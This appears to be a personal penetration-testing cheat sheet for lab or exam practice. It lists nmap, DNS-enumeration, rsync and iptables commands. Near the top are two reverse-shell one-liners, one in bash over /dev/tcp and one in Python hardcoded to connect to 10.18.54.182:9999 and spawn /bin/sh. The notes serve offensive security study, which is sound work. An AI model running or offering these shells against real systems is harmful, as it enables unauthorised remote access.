

nmap -Pn -sC -sV -oA tcp -p- -T4 -vvvvv --reason 192.168.210.90
rsync rsync://192.168.67.126/
txt,html,php,asp,aspx,jsp
sh -i >& /dev/tcp/<ip>/<port> 0>&1
find / -type f -name local.txt
python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.54.182",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
HOST
* host <domain name>
* host -t mx <domain name>
* host -t txt <domain name>
* for ip in $(seq 200 250); do host 51.222.169.$ip; done | grep -v "not found"
DNSRECON
* dnsrecon -d <domain name> -t <type of scan> for ex: std
* dnsrecon -d <domain name> -D ~/<filename> -t brt
DNSENUM
* dnsenum <domain name>
NSLOOKUP
* nslookup <domain name>
* nslookup -type=TXT <domain name> <ip address>
IPTABLES
*sudo iptables -I INPUT 1 -s <ip address> -j ACCEPT
*sudo iptables -I OUTPUT 1 -d <ip address> -j ACCEPT
*sudo iptables -Z
*sudo iptables -vn -L
NMAP
* nmap <ip-address>
* nmap -p 1-100 <ip address>
* nmap -sS <ip address> {SYN Scan}
* nmap -sT <ip address> {TCP Connect Scan}
* nmap -sU <ip address> {UDP Scan}
* nmap -sS -sU <ip address> {SYN+UDP Scan}
* nmap -sn <ip adress-range from last octet) {network sweeping or host discovery}
* nmap -v -sn <ip adress-range> -oG <file name>
* grep Up <file name> | cut -d " " -f 2
* nmap -p <ip address-range> -oG <file name>
* grep open <file name> | cut -d " " -f 2
* nmap -sT -A --top-ports=20 <ip address-range> -oG <file name>
* nmap -O <ip address> --osscan-guess {OS SCAN}
* nmap -sV -sT -A <ip address>
* nmap --script http-headers <ip address
>
* nmap --script-help http-headers
FOR WINDOWS
* Test-NetConnection -Port 445 <ip address>